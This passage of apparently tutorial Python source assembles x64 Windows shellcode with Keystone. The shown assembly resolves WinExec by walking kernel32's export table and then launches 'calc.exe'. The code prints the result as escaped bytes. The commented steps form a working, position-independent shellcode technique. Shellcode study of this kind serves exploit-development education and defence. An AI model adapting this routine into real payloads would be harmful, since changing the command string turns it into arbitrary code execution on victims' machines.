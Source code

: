 ```
        "   shr rax, 0x8;"                  # Shift right by 8 bits to get the desired WinExec string
        "   cmp [rbx], rax;"                # Compare the first eight bytes of the function name at RBX with 'WinExec'
        "   jnz kernel32findfunction;"      # If not matched, jump back to start of loop
        "FunctionNameFound: "
        # Entry point after finding the target function name 'WinExec'
        "   xor r11, r11;"
        "   mov r11d, [rdx+0x24];"          # Load the RVA of the AddressOfNameOrdinals from the Export Table
        "   add r11, r8;"                   # Convert RVA to absolute VMA (Virtual Memory Address)
        # Incrementing the counter to match the ordinal array index, since we decremented it in the search loop
        "   inc rcx;"
        "   mov r13w, [r11+rcx*2];"         # Retrieve the function ordinal using the adjusted counter from AddressOfNameOrdinals
        # Preparing to fetch the actual function address from AddressOfFunctions
        "   xor r11, r11;"
        "   mov r11d, [rdx+0x1c];"          # Load the RVA of the AddressOfFunctions from the Export Table
        "   add r11, r8;"                   # Convert RVA to absolute VMA where the function addresses are stored
        "   mov eax, [r11+4+r13*4];"        # Fetch the function address RVA using the ordinal as an index
        "   add rax, r8;"                   # Convert function address RVA to absolute address
        "   mov r14, rax;"                  # Store the resolved function address in R14 for later use
        # WinExec Call
        "  xor rax, rax;"                   # Zero RAX to create a null byte
        "  push rax;"                       # Push the null byte onto the stack, acts as string terminator for "calc.exe"
        "  mov rax, 0x6578652E636C6163;"    # Move the reverse byte-order string 'calc.exe' into RAX
        "  push rax;"                       # Push the string 'calc.exe' onto the stack (Note: string must be reversed in memory)
        "  mov rcx, rsp;"                   # Set RCX to point to the string "calc.exe" on the stack, RCX is the first argument for WinExec
        "  xor rdx, rdx;"                   # Zero out RDX, preparing it for the next operation
        "  inc rdx;"                        # Set RDX to 1; this sets uCmdShow parameter for WinExec to SW_SHOWNORMAL
        "  sub rsp, 0x20;"                  # Allocate 32 bytes of shadow space on the stack to prevent overwriting during the call
        "  call r14;"                       # Call WinExec using the address stored in R14
    )
 
    # Initialize engine in 64-Bit mode
    ks = Ks(KS_ARCH_X86, KS_MODE_64)
    instructions, count = ks.asm(SHELLCODE)
 
    sh = b""
    output = ""
    for opcode in instructions:
        sh += struct.pack("B", opcode)                          # To encode for execution
        output += "\\x{0:02x}".format(int(opcode)).rstrip("\n") # For printable shellcode
 
 
    shellcode = bytearray(sh)
    print("Shellcode: " + output )
 
    # print("Attaching debugger to " + str(os.getpid()));
    # subprocess.Popen(["WinDbgX", "/g","/p", str(os.getpid())], shell=True)
    # input("Press any key to continue...");
 
```